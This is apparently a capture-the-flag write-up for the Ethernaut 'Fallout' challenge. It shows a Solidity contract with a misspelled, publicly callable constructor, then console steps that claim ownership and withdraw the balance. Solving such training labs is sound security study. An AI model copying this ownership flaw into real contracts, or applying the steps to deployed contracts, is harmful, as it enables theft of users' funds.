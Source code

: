 ```yaml
---
layout: post
title: Ethernaut - fallout
date:  2022-08-24
tags: ethernaut
---
```


### Difficulty: 🌕🌑🌑🌑🌑
### Contract
``` solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```

### Writeup
1. Get new instance
2. `await contract.owner()` to check contract owner, it return address 0x0000000000000000000000000000000000000000.
3. Use `await contract.allocatorBalance(YOUR_ADDRESS).then(v=>v.toString())` to check balance, it return zero.
4. `await contract.Fal1out({ value: toWei("0.00001") })`
5. Call function `allovatorBalance` again like step3, we can see out balance become 10000000000000 now.
6. `await contract.collectAllocations()`
7. Submit instance ξ( ✿＞◡❛)